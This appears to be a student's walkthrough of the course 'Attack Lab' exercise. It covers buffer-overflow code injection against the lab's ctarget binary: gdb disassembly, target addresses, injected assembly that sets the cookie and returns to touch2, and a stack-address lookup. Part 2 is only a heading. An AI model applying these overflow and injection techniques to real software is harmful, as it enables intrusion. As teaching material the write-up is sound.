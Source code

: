 # Attack Lab

## Part 1

### level 1

1. get assembly code

    ```
    objdump -d ctarget > c.txt
    ```

1. use gdb to run ctarget

    ```
    gdb ctarget
    ```

2. to check the assembly code

    ```
    (gdb) disas getbuf
    Dump of assembler code for function getbuf:
        0x00000000004017a8 <+0>:     sub    $0x28,%rsp
        0x00000000004017ac <+4>:     mov    %rsp,%rdi
        0x00000000004017af <+7>:     callq  0x401a40 <Gets>
        0x00000000004017b4 <+12>:    mov    $0x1,%eax
        0x00000000004017b9 <+17>:    add    $0x28,%rsp
        0x00000000004017bd <+21>:    retq   
    End of assembler dump.
    ```

    This function will get a string of 0x28 bytes (that is, 40 characters), and finally execute the retq command.

3. find address of touch1

    ```
    (gdb)disas touch1
    Dump of assembler code for function touch1:
        0x00000000004017c0 <+0>:     sub    $0x8,%rsp
    ```

4. combine the values to ctarget.1.txt and run

    ```
    ./hex2raw < ctarget.1.txt | ./ctarget -q
    ```

### level 2

1. in assembly code find touch2

    ```
    00000000004017ec <touch2>:
    ```

    We see that touch2 has passed a parameter, and if the value of this parameter is equal to the cookie, it will be successful. The value of the cookie is in the given file cookie.txt, my cookie is 0x59b997fa.

2. assembly code should be

    ```
    movq    $0x59b997fa, %rdi
    pushq   $0x4017ec
    ret
    ```

3. Compile on the command line 

    ```
    gcc -c l2.s
    objdump -d l2.o
    ```

4. find %rsp using gdb

    ```
    gdb ctarget
    (gdb) break *0x4017ac
    (gdb) run -q
    (gdb) info registers
    ... 
    rsp            0x5561dc78	0x5561dc78
    ... 
    ```

5. get the %rsp address, and then write the injection string. The string is the injection code address + useless characters + return address.

### level 3

1. set break in test, check %rsp

    ```
    (gdb) break *0x40196c
    (gdb) run -q
    (gdb) info r rsp 
    ```

2. get disassembly

    ```
    gcc -c l3.s
    objdump -d l3.o
    ```
4. use `man ascii` get hexadecimal of the cookie


## Part 2
